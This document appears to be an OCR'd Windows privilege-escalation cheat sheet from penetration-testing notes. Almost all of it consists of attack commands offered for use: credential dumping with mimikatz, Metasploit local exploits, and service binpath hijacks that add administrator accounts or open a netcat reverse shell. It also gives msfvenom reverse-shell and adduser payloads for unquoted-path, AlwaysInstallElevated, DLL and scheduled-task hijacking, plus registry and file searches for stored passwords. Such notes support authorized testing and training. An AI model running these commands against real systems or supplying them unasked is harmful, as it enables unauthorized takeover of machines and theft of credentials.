 WINDOWS
● Basic System Information
○ systeminfo
○ whoami; echo %username; hostname
○ net user
○ net localgroup
○ net use
● Check User Folders
○ Dir C:\users\..
● Environment
○ Set
○ Remember you will have the permissions of the process you pwned! (i.e.,
browser privs for clientside so C:\Users\nina\AppData\Local\Temp\Low)

● Password hashes
○ wce -w; fgdump; mimikatz.exe
● Network
○ arp -a
○ ipconfig /all
○ netstat -ano
○ netstat -nr
○ route print
● Firewall
○ netsh firewall show state
○ netsh firewall show config

Exploits
wmic qfe get Caption,Description,HotFixID,InstalledOn
This will show us all the hotfixes which have been installed, we should be able to tell from this which
exploits will work and which wont (i.e., KiTrap0D (KB979682), MS11-011 (KB2393802), MS10-059
(KB982799), MS10-021 (KB979683), MS11-080 (KB2592799)
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_081_track_popup_menu

Services and Processes:
● tasklist /SVC
● net start
● sc query
● sc query state= all
● Get-WmiObject win32_service | select Name, DisplayName, State,
PathName | Out-File
● sc qc service.exe (for binpath)
● iacls.exe or cacls.exe (for permissions)
● dir /S *foo* (find)
● dir /Q (for ownership)
● schtasks /query /fo LIST /v
Service Prep
● sc qc upnphost
● sc config upnphost obj= ".\LocalSystem" password= ""
Binary Execution
● sc config upnphost binpath= “C:\evil.exe”
Netcat
● sc config upnphost binpath= “\“C:\nc.exe\” \”-nv 10.11.0.185
443 -e C:\windows\system32\cmd.exe\””
User Add
● sc config upnphost binpath= “net user lecon lecon /add”
● sc config upnphost binpath= “net localgroup Administrators lecon /add”
● sc config upnphost binpath= “net localgroup “/Remote Desktop Users/” lecon
/add”

Unquoted Service Paths
Any service path containing spaces and not quoted we can defeat by placing an executable
along the path before the service executable. e.g.,-
wmic service get name,displayname,pathname,startmode |findstr /i
"Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
C:\Program Files (x86)\Privacyware\Privatefirewall 7.0\pfsvc.exe
Now if we have the correct permissions we can create a file called ‘Privatefirewall.exe’ and drop
it into the ‘Privacyware’ folder.

icacls "C:\Program Files (x86)\Privacyware"
BUILTIN\Users:(OI)(CI)(M), lists the permissions for unprivileged users. The (M) stands for Modify,
which grants any unprivileged user, the ability to read, write and delete files and subfolders within this
folder
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai
LHOST=10.0.0.100 LPORT=443 -f exe -o Privatefirewall.exe
Metasploit Module: exploit/windows/local/trusted_service_path
A review of the source code reveals that the module uses some regular expression magic to
filter out any paths that are quoted or have no spaces in the path to create a list of vulnerable
services. The module then attempts to exploit the first vulnerable service on the list by dropping
a malicious executable into the affected folder.
Vulnerable Services
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
This command will attempt to determine which Services can be modified by any authenticated user
(regardless of privilege level).
RW PFNet
SERVICE_ALL_ACCESS
● sc qc PFNet
BINARY_PATH_NAME - ../system32/pfsvc.exe
We have two options here - put whatever file we want to run in that location and restart the service, or
take a more direct approach:-
● sc config PFNET binpath= "net user lecon pass /add"
● sc stop PFNET
● sc start PFNET
● sc config PFNET binpath= "net localgroup Administrators lecon /add"
● sc stop PFNET
● sc start PFNET
● Profit!
Metasploit Module: exploit/windows/local/service_permissions

Always Install Elevated
What we would like to do is create a service and push an executable into that service binary
path, however there is one registry entry we need on our side - “AlwaysInstallElevated”:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msfvenom -p windows/adduser USER=lecon PASS=P@ssword01 -f msi -o rotten.msi
msiexec /quiet /qn /i C:\Users\Steve\Downloads\rotten.msi
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
Metasploit Module: exploit/windows/local/always_install_elevated
Unattended Installs

C:\Windows\Panther\
C:\Windows\Panther\Unattend\
C:\Windows\System32\
C:\Windows\System32\sysprep\
Note: In addition to Unattend.xml files, be on the lookout for sysprep.xml and sysprep.inf files on
the file system. These files can also contain credential information utilizing during deployment
of the operating system, allowing us to escalate privileges.
Once you’ve located an Unattend file, open it up and search for the <UserAccounts> tag.
Metasploit Module: post/windows/gather/enum_unattend
DLL Hijacking
Determine a DLL that a service or other application is attempting to load, the order is below:

1 - The directory from which the application loaded
2 - 32-bit System directory (C:\Windows\System32)
3 - 16-bit System directory (C:\Windows\System)
4 - Windows directory (C:\Windows)
5 - The current working directory (CWD)
6 - Directories in the PATH environment variable (system then user)
E.g., Since the DLL in question does not exist we will end up traversing all the search
paths. As a low privilege user we have little hope of putting a malicious DLL in 1-4, 5 is
not a possibility in this case because we are talking about a Windows service but if we
have write access to any of the directories in the Windows PATH we win:

echo %path%
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\Wind
owsPowerShell\v1.0\;C:\Program Files\OpenVPN\bin;C:\Python27
We can see here an opportunity to insert a malicious executable as the reliant DLL in the
C:\python27 path.
Check the vulnerable service to see if we can restart
accesschk.exe -dqv "C:\Python27"
cacls "C:\Python27"
sc qc IKEEXT
Create simple malicious DLL and copy it to target system in vuln $PATH
msfvenom -p windows/shell_reverse_tcp lhost='127.0.0.1' lport='4444'
-f dll > evil.dll
copy evil.dll C:\Python27\wlbsctrl.dll
Restart service, profit.
net start IKEEXT
Scheduled Tasks
Determine a scheduled task that runs as SYSTEM, we can then simply drop in a msfvenom
executable into the path if we have appropriate permissions:
schtasks /query /fo LIST /v
Task To Run: E:\GrabLogs\tftp.exe 10.1.1.99 GET log.out E:\GrabLogs\Logs\log.txt
...
Run As User: SYSTEM
accesschk.exe -dqv "E:\GrabLogs"
icacls "E:\GrabLogs"
msfvenom -p windows/reverse_shell_tcp lhost=10.11.1.1 lport=4444 -f
exe > mal.exe
copy mal.exe E:\GrabLogs\tftp.exe

Scripts:
Windows Exploit Suggester
python windows-exploit-suggester.py -i sysinfo.txt -d
2017-08-21-mssb.xls

PowerShell Empire - PowerUP
Download PowerUp.ps1 script, and amend to the bottom of the script:
Invoke-AllChecks | out-file “PowerUP.txt”
Powershell.exe -ExecutionPolicy Bypass -File PowerUp.ps1
Searching for useful information:
# The command below will search the file system for file names containing certain keywords.
You can
specify as many keywords as you wish.
C:\Windows\system32> dir /s *pass* == *cred* == *vnc* == *.config*
# Search certain file types for a keyword, this can generate a lot of output.
C:\Windows\system32> findstr /si password *.xml *.ini *.txt
# Similarly the two commands below can be used to grep the registry for keywords, in this case
"password".
C:\Windows\system32> reg query HKLM /f password /t REG_SZ /s
C:\Windows\system32> reg query HKCU /f password /t REG_SZ /s
Putty clear text proxy credentials:
reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"

Search the registry - copy (pipe) to the clipboard (optional)
reg query HKLM /f password /t REG_SZ /s [ |clip]
reg query HKCU /f password /t REG_SZ /s [ |clip]

Resources:

http://www.fuzzysecurity.com/tutorials/16.html

https://www.toshellandback.com/2015/11/24/ms-priv-esc/

https://attack.mitre.org/wiki/Privilege_Escalation
